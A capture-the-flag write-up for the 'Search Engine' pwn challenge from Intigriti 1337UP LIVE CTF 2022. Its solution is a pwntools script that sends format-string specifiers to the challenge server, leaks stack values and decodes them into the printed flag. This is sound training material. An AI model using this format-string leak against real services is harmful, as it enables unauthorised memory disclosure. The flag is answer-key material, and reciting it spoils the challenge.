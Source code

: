 ```yaml
---
name: Search Engine (2022)
event: Intigriti 1337UP LIVE CTF 2022
category: Pwn
description: Writeup for Search Engine (Pwn) - Intigriti 1337UP LIVE CTF (2022) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Search Engine

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/BekVaShD9HE/0.jpg)](https://youtu.be/BekVaShD9HE "Intigriti 1337UP LIVE CTF 2022: Search Engine")

## Challenge Description

> In an attempt to block third party software, we've been using our very own search engine! It doesn't yet have every feature, but at least it's very secure!

## Solution

{% code overflow="wrap" %}
```py
from pwn import *

context.log_level = 'info'

flag = ''

# Let's fuzz x values
for i in range(12, 16):
    try:
        # Connect to server
        io = remote('searchengine.ctf.intigriti.io', 1337, level='warn')
        # Format the counter
        # e.g. %i$p will attempt to print [i]th pointer (or string/hex/char/int)
        io.sendline('%{}$p'.format(i).encode())
        # Receive the response (leaked address followed by '.' in this case)
        io.recvuntil(b'No result found. You searched for - ')
        result = io.recv()
        if not b'nil' in result:
            print(str(i) + ': ' + str(result))
            try:
                # Decode, reverse endianess and print
                decoded = unhex(result.strip().decode()[2:])
                reversed_hex = decoded[::-1]
                print(str(reversed_hex))
                # Build up flag
                flag += reversed_hex.decode()
            except BaseException:
                pass
        io.close()
    except EOFError:
        io.close()

# Print and close
info(flag)
```
{% endcode %}

Flag: `1337UP{Th3s3_f0rm4ts_ar3_wh4ck!}`
